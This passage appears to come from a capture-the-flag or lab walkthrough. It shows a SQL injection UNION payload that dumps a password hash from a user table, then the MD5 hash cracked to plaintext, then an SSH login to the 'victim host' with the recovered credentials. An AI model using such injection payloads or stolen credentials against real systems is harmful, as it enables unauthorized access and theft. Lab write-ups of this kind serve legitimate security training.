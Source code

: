 ![](./IMG/24.png)
```
' and 1=2 UNION SELECT 1,group_concat(password),3 FROM user WHERE id='1'-- -
```
![](./IMG/25.png)
> user : james_mason
> password : fc895d4eddc2fc12f995e18c865cf273

- Crack Password by online tools
- It's md5 hash
- Password: 
```fc895d4eddc2fc12f995e18c865cf273 / Soleil101```

![](./IMG/26.png)
### Get victim by SSH

- SSH Login by : james_mason / Soleil101, Success to login

![](./IMG/27.png)
- Check basic information in victim host (id/hostname/username)

![](./IMG/28.png)
```